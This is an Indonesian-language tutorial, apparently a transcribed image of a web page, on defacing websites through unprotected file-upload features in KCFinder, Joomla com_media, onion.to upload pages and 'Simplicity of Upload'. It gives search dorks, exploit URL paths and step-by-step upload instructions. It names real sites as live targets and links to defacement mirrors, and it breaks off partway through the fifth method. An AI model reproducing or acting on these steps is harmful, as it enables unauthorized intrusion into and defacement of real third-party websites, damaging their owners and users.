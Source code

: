 4.lalu klik search kembali! nah disitu kalian klik chose file dan pilih script deface punya kalian
5.klik yang di bawah nya tunggu sampai loading selesai
6.tambah link target tadi dengan (/files) contoh http://sitetarget*org/files/namascriptdefacekalian.html lalu klik search
7.selesai!!
Cara2
Method/metode KCFinder
Inurl:/kcfinder/browse.php
Inurl:/Kcfinder/
Langsung saja upload file deface anda,lalu panggil dengan tambahan /file/namasckamu.html
Contoh:
https://basukiwater.com/kcfinder/browse.php
jadi
https://basukiwater.com/file/namasckamu.html
cara3
Deface Onion.to File Upload

Tutor ini sekarang lagi Ngtreend & Simple , tapi ingat ya bukan Deepweb melaikan Fake Deepweb hehehe... Mari kita Lanjut...
Dork : - inurl:/upload site:.onion.to
           - intext:"Upload" site:.onion.to
Live : https://tt3j2x4k5ycaa5zt.onion.to/upload.php
Step By Step :
1. Dorking Dulu
2. Pilih Web Target
3. Pilih File yang mau di'upload
4. Tinggal klik Upload => Done 😆
Contoh Target :
https://tt3j2x4k5ycaa5zt.onion.to/uploads/lopeyou.html
https://danwin1210.me/uploads/lopeyou.html
https://temp.xn--wda.fr/e719x8JgJ.html
Mirror?! 😆
https://www.defacer.id/296011.html
https://www.defacer.id/296024.html
cara4
Metode com media
Bahan :
1. Dork : - inurl:com_media site:com
            - inurl:com_media intext:"Upload"
2. Exploit : /index.php?option=com_media&view=images&tmpl=component&fieldid=&e_name=jform_articletext&asset=com_content&author=&folder=
3. Upload'an : Format .txt 😁
Live Target : http://www.james-insurance.co.uk/
Step by Step :
gunakan Live Targert dulu untuk Uji Coba 😁
1. Masukkan dork : inurl:com_media intext:"Upload" site:co.uk
2. Pilih salah satu Web
3. Masukkan Exploit
http://www.james-insurance.co.uk/index.php?option=com_media&view=images&tmpl=component&fieldid=&e_name=jform_articletext&asset=com_content&author=&folder=
4. Lalu Upload file dalam tempat upload ( format .txt )
Akses shell ?
Tambahkan : /images/namafile.txt
                       contoh : http://www.james-insurance.co.uk/images/fac.txt
Nanti Jadi Gini Hasilnyaa..
Mudah Bukan?! Tinggal Upload ke Defacer.id 😁
cara5
[POC] Vulnerability Simplicity Of Upload
#Step 1:
Dork: “Powered By: © Simplicity oF Upload”
#Step 2:
Exploit: http://[situstargetkamu]/PATH/upload.php
*Tergantung dengan target.
#Step 3: